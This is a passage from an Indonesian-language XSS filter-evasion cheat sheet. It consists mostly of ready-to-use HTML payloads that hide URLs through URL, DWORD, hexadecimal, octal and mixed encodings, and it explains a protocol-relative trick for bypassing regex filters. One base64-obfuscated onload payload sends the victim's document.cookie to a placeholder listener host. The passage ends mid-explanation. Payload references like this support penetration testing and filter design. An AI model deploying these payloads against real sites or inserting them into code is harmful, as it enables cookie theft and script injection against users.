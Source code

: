 #### Pengodean URL

```html
<A HREF="http://%77%77%77%2E%67%6F%6F%67%6C%65%2E%63%6F%6D">XSS</A>
```

#### Pengodean DWORD

Catatan: ada beberapa variasi pengodean DWORD - lihat kalkulator Pengaburan IP di bawah ini untuk detail selengkapnya:

```html
<A HREF="http://1113982867/">XSS</A>
```

#### Pengodean Heksadesimal

Total ukuran setiap angka yang diizinkan adalah sekitar 240 karakter total seperti yang dapat Anda lihat pada digit kedua, dan karena angka heksadesimal berada di antara 0 dan F, angka nol di depan pada tanda kutip heksadesimal ketiga tidak diperlukan:

```html
<A HREF="http://0x42.0x0000066.0x7.0x93/">XSS</A>
```

#### Pengodean Oktal

Sekali lagi, padding diperbolehkan, meskipun Anda harus membuatnya di atas 4 karakter total per kelas - seperti di kelas A, kelas B, dst.:

```html
<A HREF="http://0102.0146.0007.00000223/">XSS</A>
```

#### Pengodean Base64

```html
<img onload="eval(atob('ZG9jdW1lbnQubG9jYXRpb249Imh0dHA6Ly9saXN0ZXJuSVAvIitkb2N1bWVudC5jb29raWU='))">
```

#### Pengodean Campuran

Mari campur dan cocokkan penyandian dasar dan tambahkan beberapa tab dan baris baru (saya tidak akan pernah tahu mengapa peramban mengizinkan ini). Tab dan baris baru hanya berfungsi jika ini dienkapsulasi dengan tanda kutip:


```html
<A HREF="h
tt p://6 6.000146.0x7.147/">XSS</A>
```


#### Protocol Resolution Bypass

`//` diterjemahkan menjadi `http://`, yang menghemat beberapa byte lagi. Ini sangat berguna saat ruang juga menjadi masalah (dua karakter lebih sedikit dapat sangat membantu) dan dapat dengan mudah melewati regex seperti `(ht|f)tp(s)?://` (terima kasih kepada Ozh untuk bagian ini). Anda juga dapat mengubah `//` menjadi `\\\\`. Anda perlu mempertahankan garis miring di tempatnya, jika tidak, ini akan ditafsirkan sebagai URL jalur relatif:
